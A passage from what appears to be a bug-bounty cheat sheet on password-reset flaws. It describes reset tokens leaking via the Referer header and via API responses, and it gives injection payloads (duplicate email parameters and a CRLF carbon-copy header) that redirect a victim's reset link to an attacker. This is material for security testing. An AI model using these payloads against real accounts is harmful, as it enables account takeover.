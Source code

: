     Impact:
    For Example User A Forgots His Password He Got To Forgot Password Page Reset And Receive Link By Email And Opened The Password Forgot Page 
    Then Eventually User Remembers His Password And Though To Use Some Facebook he Opened Nordvpn facebook page or click on social media page 
    then the link will be leaked in refer header.
    It allows the person who has control of particular site to change the user's password (CSRF attack),
    because this person knows reset password token of the user.
    Other Impact -Account Takeover Possible
    The Person Operating NordVpn Social Media Page Can Also Exploit like if they have enabled page analytics then they may see from where users are referring onto       there page and from there they see that password reset link and can reset the password for victim
[https://hackerone.com/reports/751581](https://hackerone.com/reports/751581)<br></br>


### 3.Password reset token leak via response

    1) send the password reset link request
    2) intercept response
    3) see the reset-password link was returned in response
    
    request:
    POST /access/forgotPassword HTTP/1.1 
    Host: api.xprogram.com
    User-Agent: Mozilla 
    Accept: application/json, text/plain, */* 
    Accept-Language: en-US,en;q=0.5 
    Content-Type: application/json;charset=utf-8 
    Referer: https://app.xprogram.com/account/forgot-password 
    Content-Length: 52 
    origin: https://app.xprogram.com 
    Cookie: redacted=yes;
    Connection: close 
    {“email”:”foobar@gmail.com”}
    
    response:
    HTTP/1.1 200 OK{“name”:”send-email”,”resetPasswordLink”:”https://app.xprogram.com/account/reset-password?token=xxxxxxxxxzzzzzzzzyyyyyyyy" , “many-other-parameters”:”many values”}
[https://medium.com/@yassergersy/account-take-over-via-reset-password-f2e9d887bce1](https://medium.com/@yassergersy/account-take-over-via-reset-password-f2e9d887bce1)<br></br>

### 4.Password reset with manipulating email parameter.Password reset token leak via response

while requesting a password reset link for the victim user,
we can try the below parameter manipulation to get a copy of the reset link of the victim on the attacker email.

    Double parameter (aka. HPP / HTTP parameter pollution):
    email=victim@xyz.tld&email=hacker@xyz.tld
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    